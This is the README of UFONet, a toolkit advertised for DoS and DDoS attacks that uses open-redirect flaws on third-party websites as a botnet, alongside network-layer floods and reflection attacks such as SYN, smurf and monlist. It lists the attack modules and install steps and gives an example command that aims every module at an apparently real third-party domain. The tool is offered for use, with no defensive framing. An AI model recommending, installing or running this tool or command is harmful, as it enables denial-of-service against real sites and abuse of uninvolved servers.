   ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-multiverse-welcome_small.png "UFONet Welcome")

----------
Full Version (updated!) online: + Website : [ufonet.03c8.net](https://ufonet.03c8.net)
----------

#### Description:

  UFONet - is a free software, P2P and cryptographic -disruptive toolkit- that allows to perform DoS and DDoS attacks; 
on the Layer 7 (APP/HTTP) through the exploitation of Open Redirect vectors on third-party websites to act as a botnet 
and on the Layer3 (Network) abusing the protocol.

  It also works as an encrypted DarkNET to publish and receive content by creating a global client/server network based 
on a direct-connect P2P architecture.

  See these links for more info:

   - [FAQ](https://ufonet.03c8.net/FAQ.html)

   - [CWE-601:Open Redirect](https://cwe.mitre.org/data/definitions/601.html)

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-schema.png "UFONet Schema")

   - [LOIC](https://en.wikipedia.org/wiki/Low_Orbit_Ion_Cannon)

   - [LORIS](https://en.wikipedia.org/wiki/Slowloris) (software)

   - [UFOSYN](https://en.wikipedia.org/wiki/SYN_flood)

   - [FRAGGLE](https://en.wikipedia.org/wiki/Fraggle_attack)

   - [UFORST](https://ddos-guard.net/en/terminology/attack_type/rst-or-fin-flood)

   - [SPRAY](https://en.wikipedia.org/wiki/DRDOS)

   - [SMURF](https://en.wikipedia.org/wiki/Smurf_attack)

   - [XMAS](https://en.wikipedia.org/wiki/Christmas_tree_packet)

   - [DROPER](https://en.wikipedia.org/wiki/IP_fragmentation_attack)

   - [SNIPER](https://www.imperva.com/learn/application-security/snmp-reflection/)

   - [TACHYON](https://www.us-cert.gov/ncas/alerts/TA13-088A)

   - [PINGER](https://www.cloudflare.com/learning/ddos/ping-icmp-flood-ddos-attack/)

   - [MONLIST](https://www.us-cert.gov/ncas/alerts/TA14-013A)

   - [UFOACK](https://www.f5.com/services/resources/glossary/push-and-ack-flood)

   - [OVERLAP](https://cyberhoot.com/cybrary/fragment-overlap-attack/)

   - [UFOUDP](https://en.wikipedia.org/wiki/UDP_flood_attack)

   - [NUKE](https://dl.packetstormsecurity.net/papers/general/tcp-starvation.pdf)

----------

#### Installing:

  UFONet runs on many platforms. It requires Python (>=3) and the following libraries:

       python3-pycurl - Python bindings to libcurl (Python 3)
       python3-geoip - Python3 bindings for the GeoIP IP-to-country resolver library
       libgeoip-dev - Development files for the GeoIP library
       libgeoip1 - non-DNS IP-to-country resolver library
       python3-whois - Python module for retrieving WHOIS information - Python 3
       python3-crypto - cryptographic algorithms and protocols for Python 3
       python3-requests - elegant and simple HTTP library for Python3, built for human beings
       python3-scapy - Packet crafting/sniffing/manipulation/visualization security tool

  You can automatically get all required libraries using (as root):

       python3 setup.py install

  For manual installation, on Debian-based systems (ex: Ubuntu), run:

       sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev

  On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:

       pip3 install GeoIP
       pip3 install python-geoip
       pip3 install pygeoip
       pip3 install requests
       pip3 install pycrypto
       pip3 install pycurl
       pip3 install whois
       pip3 install scapy-python3

####  Source libs:

   * [Python](https://www.python.org/downloads/)
   * [PyCurl](http://pycurl.sourceforge.net/)
   * [GeoIP](https://pypi.python.org/pypi/GeoIP/)
   * [Python-geoip](https://pypi.org/project/python-geoip/)
   * [Pygeoip](https://pypi.org/project/pygeoip/)
   * [Whois](https://pypi.python.org/pypi/whois)
   * [PyCrypto](https://pypi.python.org/pypi/pycrypto)
   * [PyRequests](https://pypi.python.org/pypi/requests)
   * [Scapy-Python3](https://pypi.org/project/scapy-python3/)
   * [Leaflet](http://leafletjs.com/) (provided)

----------

####  License:

  UFONet is released under the GPLv3. You can find the full license text
in the [LICENSE](./docs/LICENSE) file.

----------

####  Example:
~~~
./ufonet -a http://www.kolaybar.com -r "100" --threads "100" --loic "1000" --loris "1000" --ufosyn "1000" --spray "1000" --smurf "1000" --xmas "1000" --nuke "1000" --tachyon "1000" --monlist "1000" --fraggle "1000" --sniper "1000" --ufoack "1000" --uforst "1000" --droper "1000" --overlap "1000" --pinger "1000" --ufoudp "1000"
~~~
----------
####  Screenshots (current version!):

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-1.png "UFONet Shell Version")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-2.png "UFONet Shell Board")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-3.png "UFONet GUI Shell")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-main_small.png "UFONet GUI Main Panel")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-help_small.png "UFONet GUI Help")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-botnet.png "UFONet GUI Botnet")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-stats.png "UFONet GUI General Stats")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-multiverse-ranking_small.png "UFONet GUI Ranking")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-attack.png "UFONet GUI Attack")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-board_small.png "UFONet GUI Board")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-wargames_small.png "UFONet GUI Wargames")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-gui3_small.png "UFONet GeoMap /deploying/")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-gui4_small.png "UFONet GeoMap /attacking/")

